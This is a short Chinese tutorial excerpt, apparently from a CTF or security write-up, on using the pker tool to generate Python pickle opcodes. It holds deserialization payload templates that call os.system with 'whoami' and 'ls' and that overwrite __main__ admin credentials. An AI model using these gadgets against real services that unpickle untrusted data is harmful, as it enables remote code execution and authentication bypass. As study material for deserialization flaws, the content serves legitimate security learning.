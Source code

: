 手撕opcode多少是麻烦的，当脚本娃娃当然是最爽的
 [工具源码下载地址](https://github.com/eddieivan01/pker)

```python
以下module都可以是包含`.`的子module
调用函数时，注意传入的参数类型要和示例一致
对应的opcode会被生成，但并不与pker代码相互等价

GLOBAL
对应opcode：b'c'
获取module下的一个全局对象（没有import的也可以，比如下面的os）：
GLOBAL('os', 'system')
输入：module,instance(callable、module都是instance)  

INST
对应opcode：b'i'
建立并入栈一个对象（可以执行一个函数）：
INST('os', 'system', 'ls')  
输入：module,callable,para 

OBJ
对应opcode：b'o'
建立并入栈一个对象（传入的第一个参数为callable，可以执行一个函数））：
OBJ(GLOBAL('os', 'system'), 'ls') 
输入：callable,para

xxx(xx,...)
对应opcode：b'R'
使用参数xx调用函数xxx（先将函数入栈，再将参数入栈并调用）

li[0]=321
或
globals_dic['local_var']='hello'
对应opcode：b's'
更新列表或字典的某项的值

xx.attr=123
对应opcode：b'b'
对xx对象进行属性设置

return
对应opcode：b'0'
出栈（作为pickle.loads函数的返回值）：
return xxx # 注意，一次只能返回一个对象或不返回对象（就算用逗号隔开，最后也只返回一个元组）

函数执行
# R
s='whoami'
system = GLOBAL('os', 'system')
system(s) # `b'R'`调用
return
# i
INST('os', 'system', 'whoami')
#c+o
OBJ(GLOBAL('os', 'system'), 'whoami')
#多参数
INST('[module]', '[callable]'[, par0,par1...])
OBJ(GLOBAL('[module]', '[callable]')[, par0,par1...])

修改全局变量
admin = GLOBAL('__main__', 'admin')
admin.name = "admin"
admin.password = "123456"
User = INST('__main__', 'User','admin','123456')
```